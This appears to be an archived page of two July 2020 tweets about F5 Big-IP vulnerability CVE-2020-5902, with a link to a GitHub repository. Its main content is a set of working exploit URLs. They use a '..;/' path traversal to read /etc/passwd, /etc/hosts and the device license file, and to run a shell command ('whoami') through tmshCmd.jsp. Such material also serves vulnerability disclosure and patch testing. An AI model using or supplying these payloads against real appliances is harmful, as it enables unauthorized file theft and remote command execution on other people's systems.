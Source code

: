 
---

# jedisct1
**https://twitter.com/jedisct1/status/1280033103751282689 _at 2020-07-06 06:57:28_**
<blockquote>
RT @wugeej: F5 Big-IP CVE-2020-5902 LFI and RCE

LFI
https://&lt;IP&gt;/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/pass…
</blockquote>


<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>147</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1280008779359125504 _at 2020-07-06 05:20:49_**
<blockquote>
F5 Big-IP CVE-2020-5902 LFI and RCE

LFI
https://&lt;IP&gt;/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
or /etc/hosts
or /config/bigip.license

RCE
https://&lt;IP&gt;/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=whoami

https://t.co/3Ete09oVP6 https://t.co/zBAfdIZBa2
</blockquote>

* https://github.com/dunderhay/CVE-2020-5902

<table><tr>